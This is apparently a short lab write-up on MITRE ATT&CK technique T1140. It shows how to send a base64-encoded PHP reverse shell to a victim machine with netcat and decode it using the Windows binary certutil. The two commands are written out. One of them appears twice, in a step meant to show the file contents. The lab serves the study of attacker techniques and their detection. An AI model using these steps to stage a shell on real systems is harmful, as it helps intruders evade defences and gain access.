



# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:



Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):



```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```



Once the file is received on the victim, let's check its contents:



```csharp
certutil.exe -decode .\enc dec
```





Let's decode the data:



```csharp
certutil.exe -decode .\enc dec
```



Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:



## References



